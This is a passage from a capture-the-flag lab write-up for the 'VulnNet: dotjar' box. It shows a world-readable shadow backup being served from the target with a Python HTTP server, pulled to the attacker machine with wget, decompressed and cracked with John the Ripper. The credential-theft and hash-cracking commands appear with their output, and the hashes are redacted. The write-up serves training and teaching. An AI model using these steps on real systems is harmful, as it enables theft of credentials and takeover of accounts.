 ```shell
tcp  LISTEN 0       100                        *:8009               *:*     users:(("java",pid=408,fd=69)) 
tcp  LISTEN 0       100                        *:8080               *:*     users:(("java",pid=408,fd=63))
```

**`/etc/shadow` backup in `/var/backup`:**
```shell
web@vulnnet-dotjar:/$ ls -lah /var/backups/
total 2.6M
drwxr-xr-x  2 root root   4.0K Jan 23 08:13 .
drwxr-xr-x 13 root root   4.0K Jan 15  2021 ..
[...]
-rw-------  1 root root    857 Jan 15  2021 group.bak
-rw-------  1 root shadow  711 Jan 15  2021 gshadow.bak
-rw-------  1 root root   1.8K Jan 15  2021 passwd.bak
-rw-r--r--  1 root root    485 Jan 16  2021 shadow-backup-alt.gz
-rw-------  1 root shadow 1.2K Jan 16  2021 shadow.bak
```

**Let's transfer the `shadow-backup-alt.gz` to our attacker machine!**
```shell
web@vulnnet-dotjar:/$ cd /var/backups/
web@vulnnet-dotjar:/var/backups$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:16:31(HKT)]
└> wget http://$RHOSTS:8000/shadow-backup-alt.gz
```

**Then use `gunzip` to decompress the `gz` file:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:16:41(HKT)]
└> gunzip shadow-backup-alt.gz
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:17:34(HKT)]
└> cat shadow-backup-alt                        
root:$6$F{Redacted}:18643:0:99999:7:::
[...]
jdk-admin:$6$P{Redacted}:18643:0:99999:7:::
web:$6$hmf.N2Bt$F{Redacted}:18643:0:99999:7:::
```

It's a `/etc/shadow` file!

**Let's crack those password hashes:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:17:36(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt shadow-backup-alt
[...]
{Redacted}        (jdk-admin)
```
